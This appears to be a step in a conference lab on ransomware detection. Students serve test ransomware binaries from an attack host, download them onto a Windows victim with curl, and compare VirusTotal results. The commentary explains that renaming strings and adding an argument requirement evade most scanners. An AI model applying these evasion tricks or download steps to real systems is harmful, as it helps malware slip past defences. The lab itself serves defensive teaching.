 # Detection

## Host the "evil" files.

1. Make sure you are connected to the NIX-ATTACK-HOST-#
2. First record your IP address on the eth0 interface. `ip addr`
3. Ensure you are still in the "notransomware" directory. Change directories if necesary. `cd /home/ubuntu/rsac21-ransom`
4. Run the following command to serve the files for download.
`python3 -m http.server`

## Update Lab Files
1. Now it is time to swap to the WINDOWS-VICTIM-HOST. Press ctrl+shift+alt(command+ctrl+shift). Click the drop down in the top left of the side menu and select the WIN-VICTIM-HOST connection.
2. Open a administrative command prompt by clicking the search icon (magnifying glass) in the bottom left.
3. Type cmd and click on the command prompt desktop app icon when it appears.
4. Change directories to the lab files on the desktop. `cd c:\Users\Administrator\Desktop\rsac21-ransom`
5. Update the files from the git repo.  `git pull`

## Download the "evil" files.

1. Do some pre-flight checks, you can access all the required programs by clicking the search bar in the bottom left and typing their respective names. When they appear in the start menu results, double click them.
    1. Is a folder on the desktop called "rsac21-ransom" (If not, launch a command prompt and run `git clone `)
    2. Is firefox installed? (If not, launch a command prompt and run `choco install firefox`)

2. Open a command prompt by clicking the search icon in the bottom left and typing `cmd`.
3. Run the following command with my new favorite living off the land binary for dowloading remote files. 
`curl http://<NIX-ATTACK-HOST>:8000/test1.exe -o test1.exe`
4. Once you have this worked out, download all the files you created on the linux attack host just changing the file names.
    - test1.exe
    - test264.exe
    - test232.exe
    - test332-arg.exe
5. This is your first detection example...no alerts from windows defender.

## What does virust total have to say about all this?

1. Open firefox and browse to virus total.  www.virustotal.com
2. Click the **choose a file** optiont to upload for analysis.
3. Browse to C:\Users\Administrator\Desktop\rsac-ransom and select test1.exe.
4. Wait for the analysis.
> Remember this is was the file that you saved as is and compiled in the amd64 architecture. Having just ~6(may increase as more people upload) detections for what will effectively encrypt files in your homedrive and attempt to connect to a server, while dropping a key and ransom note is pretty scary in itself.
5. Now Click the upload button in the top left beside the search bar and upload the second sample test264.exe.
> This was the sample you simply replaced all occurances of the word encrypt with another word. This now comes back  detections. Putting on show case that changing common words and text associated with malware inside binaries will trick a number of detections in iteslef. Not to mention this changes zero function of the binary while completely changing the hash.
6. Finally, upload the 32bit version of this sample. Same sample as before, but compliled for the more commonly execuable 32bit architecture.
> By nature of the architecture you will see many more detections now, many of the static and behavioral analysis tools are tuned toward 32bit binaires and instructions.
7. All that's great but now upload the final sample where you added the argument requirement for it to run. Test232-args.exe.
> You will notice nearly all the detections go away now, even in the 32bit architecture. All of that work spent on creating different types of anti analysis techiniques and simply adding an argument requirement will fool nearly every auto analysis capability out there, making the detection solely reliant on strings.

Let's return to talk about what just happened and get ready to move on to live reponse.

[Live Response](response.md)
